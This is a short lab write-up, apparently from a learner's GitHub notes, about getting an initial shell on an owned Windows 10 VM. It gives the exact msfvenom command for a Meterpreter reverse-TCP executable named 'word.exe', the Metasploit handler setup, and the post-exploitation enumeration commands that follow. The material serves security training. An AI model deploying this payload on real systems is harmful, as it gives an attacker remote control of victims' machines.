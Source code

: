 # Day 4 — Windows Privilege Escalation (Phase A: initial access via Meterpreter)  
**Author:** Shaafi (FROSTmatic-hub)  
**Objective:** Obtain an interactive shell on the Windows 10 lab VM and perform initial safe enumeration. Prepare for automated privilege escalation checks.

---

## Lab setup & safety
- Host: my laptop (home network)  
- Attacker: Kali VM — IP: `192.168.31.213` (bridged)  
- Target: Windows 10 VM — IP: `192.168.31.159` (bridged)  
- Snapshot created before exploit: `day4_before_exploit` (recommended)

> **Ethics:** All actions performed on owned lab VMs only. No external systems targeted.

---

## Access method (payload & handler)
- Payload generated with `msfvenom` (Windows Meterpreter EXE).  
- `msfconsole` handler configured:  
  - `LHOST = 192.168.31.213`  
  - `LPORT = 5555`

**Example used**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.213 LPORT=5555 -f exe -o word.exe
# Metasploit handler:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.213
set LPORT 5555
run
```
## Evidence (Meterpreter outputs)
- `getuid`: Server username: DESKTOP-TD9BS8A\test
- `sysinfo`: 
    Computer   : DESKTOP-TD9BS8A
    OS         : Windows 10 (10.0 Build 10240)
    Architecture: x64
    System Language: en_US
    Domain     : WORKGROUP
## Basic (non-destructive) enumeration commands executed
```bash
meterpreter> sysinfo
meterpreter> getuid
meterpreter> getprivs
meterpreter> ipconfig
meterpreter> ps
meterpreter> shell
C:\> whoami
C:\> whoami /priv
C:\> net localgroup administrators
C:\> sc queryex type= service
C:\> schtasks /query /fo LIST /v
#Saved output to output/day4_meterpreter_basic.txt

